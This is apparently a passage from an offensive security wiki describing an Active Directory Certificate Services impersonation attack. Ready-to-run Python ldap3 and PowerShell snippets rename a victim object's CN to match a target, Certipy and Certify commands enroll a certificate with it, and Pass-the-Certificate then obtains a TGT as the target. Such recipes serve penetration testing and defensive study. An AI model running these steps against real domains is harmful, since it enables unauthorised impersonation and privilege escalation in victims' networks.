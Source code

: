 === UNIX-like

From UNIX-like systems, the `cn` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>.<DOMAIN>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify_dn(
        victim_dn,
        'CN=<TARGET>.<DOMAIN>'
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

=== Windows

From Windows systems, with PowerShell the `cn` attribute of the victim must be overwritten to be equal to `$TARGET.domain.local`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Users,DC=domain,DC=local"
$victim.Rename("CN=$TARGET.domain.local")
Get-ADUser $VICTIM
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

